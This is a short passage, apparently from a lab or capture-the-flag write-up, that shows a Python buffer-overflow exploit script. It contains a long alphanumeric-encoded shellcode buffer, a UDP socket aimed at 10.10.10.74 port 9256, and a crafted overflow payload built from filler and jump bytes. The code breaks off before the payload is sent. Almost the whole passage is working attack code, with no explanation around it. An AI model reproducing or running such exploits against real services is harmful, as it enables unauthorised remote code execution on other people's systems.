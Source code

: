 The exploit should look as follows:

```python
import sys
import time
import socket

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x6b\x4c\x7a\x48\x45\x32"
buf += b"\x39\x70\x6d\x30\x59\x70\x4f\x70\x34\x49\x59\x55\x4e"
buf += b"\x51\x47\x50\x51\x54\x64\x4b\x62\x30\x6c\x70\x62\x6b"
buf += b"\x61\x42\x6c\x4c\x52\x6b\x6f\x62\x4c\x54\x44\x4b\x33"
buf += b"\x42\x6b\x78\x4c\x4f\x77\x47\x6d\x7a\x6c\x66\x6c\x71"
buf += b"\x4b\x4f\x56\x4c\x4f\x4c\x63\x31\x73\x4c\x5a\x62\x4c"
buf += b"\x6c\x4d\x50\x49\x31\x58\x4f\x5a\x6d\x5a\x61\x78\x47"
buf += b"\x68\x62\x59\x62\x50\x52\x50\x57\x54\x4b\x31\x42\x4c"
buf += b"\x50\x64\x4b\x6e\x6a\x6f\x4c\x72\x6b\x30\x4c\x5a\x71"
buf += b"\x74\x38\x4a\x43\x4d\x78\x79\x71\x77\x61\x4f\x61\x72"
buf += b"\x6b\x32\x39\x4b\x70\x49\x71\x5a\x33\x72\x6b\x6f\x59"
buf += b"\x6a\x78\x7a\x43\x6d\x6a\x6e\x69\x32\x6b\x30\x34\x54"
buf += b"\x4b\x4b\x51\x4a\x36\x70\x31\x39\x6f\x36\x4c\x57\x51"
buf += b"\x68\x4f\x6c\x4d\x49\x71\x38\x47\x70\x38\x49\x50\x51"
buf += b"\x65\x69\x66\x4c\x43\x31\x6d\x5a\x58\x6d\x6b\x73\x4d"
buf += b"\x4b\x74\x51\x65\x67\x74\x72\x38\x64\x4b\x52\x38\x4f"
buf += b"\x34\x5a\x61\x79\x43\x33\x36\x42\x6b\x5a\x6c\x30\x4b"
buf += b"\x42\x6b\x30\x58\x4b\x6c\x4b\x51\x57\x63\x34\x4b\x5a"
buf += b"\x64\x72\x6b\x4d\x31\x46\x70\x72\x69\x51\x34\x6d\x54"
buf += b"\x6c\x64\x4f\x6b\x71\x4b\x51\x51\x31\x49\x71\x4a\x4e"
buf += b"\x71\x4b\x4f\x4b\x30\x4f\x6f\x61\x4f\x30\x5a\x72\x6b"
buf += b"\x7a\x72\x4a\x4b\x42\x6d\x61\x4d\x31\x5a\x7a\x61\x74"
buf += b"\x4d\x52\x65\x75\x62\x6d\x30\x59\x70\x69\x70\x50\x50"
buf += b"\x42\x48\x4c\x71\x32\x6b\x72\x4f\x52\x67\x39\x6f\x37"
buf += b"\x65\x75\x6b\x4a\x50\x78\x35\x77\x32\x71\x46\x62\x48"
buf += b"\x37\x36\x32\x75\x35\x6d\x53\x6d\x69\x6f\x67\x65\x6f"
buf += b"\x4c\x59\x76\x33\x4c\x5a\x6a\x51\x70\x79\x6b\x49\x50"
buf += b"\x42\x55\x7a\x65\x67\x4b\x50\x47\x6d\x43\x44\x32\x30"
buf += b"\x6f\x52\x4a\x69\x70\x6e\x73\x69\x6f\x49\x45\x73\x33"
buf += b"\x72\x4d\x31\x54\x4e\x4e\x62\x45\x63\x48\x43\x35\x6f"
buf += b"\x30\x4c\x6f\x42\x43\x4d\x50\x6f\x6c\x6f\x6c\x4c\x71"
buf += b"\x6e\x50\x4e\x4e\x50\x31\x4c\x70\x6e\x4e\x30\x31\x4f"
buf += b"\x44\x4c\x6e\x4f\x42\x4f\x45\x4f\x6c\x6f\x52\x61\x45"
buf += b"\x4f\x52\x6f\x52\x6f\x51\x6f\x6c\x43\x32\x34\x35\x53"
buf += b"\x32\x63\x32\x51\x51\x6e\x4e\x72\x45\x32\x58\x70\x65"
buf += b"\x4d\x30\x41\x41"

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
```